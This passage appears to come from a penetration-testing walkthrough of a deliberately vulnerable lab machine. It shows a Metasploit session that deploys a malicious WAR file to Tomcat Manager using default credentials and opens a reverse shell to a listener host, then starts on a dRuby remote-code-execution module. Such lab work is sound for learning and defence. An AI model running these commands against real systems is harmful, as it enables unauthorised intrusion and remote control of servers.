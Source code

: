 ``` plain

msf exploit(tomcat_mgr_deploy) > set PASSWORD tomcat
PASSWORD => tomcat
msf exploit(tomcat_mgr_deploy) > set RHOST 192.168.127.154
RHOST => 192.168.127.154
msf exploit(tomcat_mgr_deploy) > set USERNAME tomcat
USERNAME => tomcat
msf exploit(tomcat_mgr_deploy) > set PASSWORD tomcat
PASSWORD => tomcat
msf exploit(tomcat_mgr_deploy) > set RHOST 192.168.127.154
RHOST => 192.168.127.154
msf exploit(tomcat_mgr_deploy) > set USERNAME tomcat
USERNAME => tomcat
msf exploit(tomcat_mgr_deploy) > set RPORT 8180
RPORT => 8180
msf exploit(tomcat_mgr_deploy) > set payload  java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf exploit(tomcat_mgr_deploy) > set LHOST 192.168.127.159
LHOST => 192.168.127.159
msf exploit(tomcat_mgr_deploy) > exploit

[*] Started reverse handler on 192.168.127.159:8888 
[*] Attempting to automatically select a target...
[*] Automatically selected target "Linux x86"
[*] Uploading 13833 bytes as RuoE02Uo7DeSsaVp7nmb79cq.war ...
[*] Executing /RuoE02Uo7DeSsaVp7nmb79cq/19CS3RJj.jsp...
[*] Undeploying RuoE02Uo7DeSsaVp7nmb79cq ...
[*] Command shell session 4 opened (192.168.127.159:8888 -> 192.168.127.154:33966) at 2014-06-06 23:51:01 +0300

whoami
tomcat55
```

We can elevate our privileges using the udev exploit from earlier, so I won't go over it again.

### Port 8787 drb

First I wanted to know what this drb is, since I wasn't familiar with it. 

> Distributed Ruby or DRb allows Ruby programs to communicate with each other on the same machine or over a network. DRb uses remote method 
> invocation (RMI) to pass commands and data between processes (Wikipedia)

Then I searched in Metasploit for an exploit, and luckily, I got a hit:

**Distributed Ruby Send instance_eval/syscall Code Execution**

> This module exploits remote code execution vulnerabilities in dRuby

``` plain
msf > use exploit/linux/misc/drb_remote_codeexec
msf exploit(drb_remote_codeexec) > show options

Module options (exploit/linux/misc/drb_remote_codeexec):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
   URI                    yes       The dRuby URI of the target host (druby://host:port)


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```